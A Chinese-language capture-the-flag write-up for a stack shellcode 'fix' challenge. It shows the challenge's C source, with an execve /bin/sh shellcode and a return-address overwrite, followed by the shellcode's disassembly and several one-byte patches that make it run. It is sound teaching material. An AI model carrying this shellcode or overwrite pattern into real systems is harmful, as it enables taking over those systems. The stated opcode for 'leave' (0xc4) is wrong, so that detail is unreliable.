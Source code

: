 # Fix writeup

## 0x01 引言

题目看着很简单，但做起来就没那么容易。考量的是对指令集和操作符的熟悉程度，最后也是参考了别人的答案才做出来的。

## 0x02 分析

题目给了源码，先分析源码。

```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
        "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
    // a buffer we are about to exploit!
    char buf[20];

    // prepare shellcode on executable stack!
    strcpy(buf, sc);

    // overwrite return address!
    *(int*)(buf+32) = buf;

    printf("get shell\n");
}

int main(){
        printf("What the hell is wrong with my shellcode??????\n");
        printf("I just copied and pasted it from shell-storm.org :(\n");
        printf("Can you fix it for me?\n");

    unsigned int index=0;
    printf("Tell me the byte index to be fixed : ");
    scanf("%d", &index);
    fflush(stdin);

    if(index > 22)  return 0;

    int fix=0;
    printf("Tell me the value to be patched : ");
    scanf("%d", &fix);

    // patching my shellcode
    sc[index] = fix;    

    // this should work..
    shellcode();
    return 0;
}
```

代码所用的shellcode对应的汇编代码为：

```asm
0:   31 c0                   xor    eax,eax
2:   50                      push   eax
3:   68 2f 2f 73 68          push   0x68732f2f
8:   68 2f 62 69 6e          push   0x6e69622f
d:   89 e3                   mov    ebx,esp
f:   50                      push   eax
10:  53                      push   ebx
11:  89 e1                   mov    ecx,esp
13:  b0 0b                   mov    al,0xb
15:  cd 80                   int    0x80
```

代码中很明确的表明了这道题目的目的，修改`shellcode`使其可用，先看看不修改时会报什么错误，运行后维持原shellcode，发现报`illegal hardware instruction (core dumped)`错误，但`shellcode`本身没什么问题，于是用gdb跟了下，发现在执行到`push eax`时`shellcode`会发生变化。这个看起来很奇怪，分析下栈空间的布局后才明白：`buf->ebp(shellcode)-28，shellcode大小占23字节，shellcode函数返回后esp->ebp(shellcode+4)`,则shellcode在栈中距当前esp的距离为`ebp(shellcode+4)+ebp(shellcode)+(28-23)=13bytes`，也就是说后面push的时候只能push入栈3次，多了的化就会覆盖原始shellcode，因此就会出错。最开始考虑将`push eax; push ebx`两条指令合并为一条指令，这样就可以不会覆盖原始shellcode了。

查找x86指令的操作码，分别得到以下几种修改方法：

1. `push eax; push ebx` -> `aad 0x53` (`aad opcode 0xd5`)
2. `push eax; push ebx` -> `aam 0x53` (`aam opcode 0xd4`)
3. `push eax; push ebx` -> `add al 0x53` (`opcode 0x04`)

但在测试时都出了问题，会报`No such file or directory`错误，发现这样修改会额外增加`/bin/sh`的参数，造成ecx指向的第二个字符串非0，想了半天还没有得到好的办法。后来参考其他解题方案时找到了两种不同的方案：

1. `push eax`-> `leave`（`opcode 0xc4`）

但同样会出现第一种方法的问题，发现其提供了一种比较好的方法来规避这个问题：***根据错误提示来新建一个和错误提示一样的文件，并在文件里执行sh，这样再次执行程序时就会执行这个文件了***。这种方法成立的前提是每次栈上的数据是不会发生变化的。

另外还有一种比较好的方法：

1. `push eax` -> `pop esp` （`opcode 0x5c`）

个人觉得这种方法比较好，先把`0x6e69622f`出到`esp`上，这样后面在执行`mov ecx, esp`时就会把`ecx`赋值为`0x6e69622f`。然而在测试时发现还是有问题，需要执行`ulimit -s unlimited`命令来栈的限制后才能生效。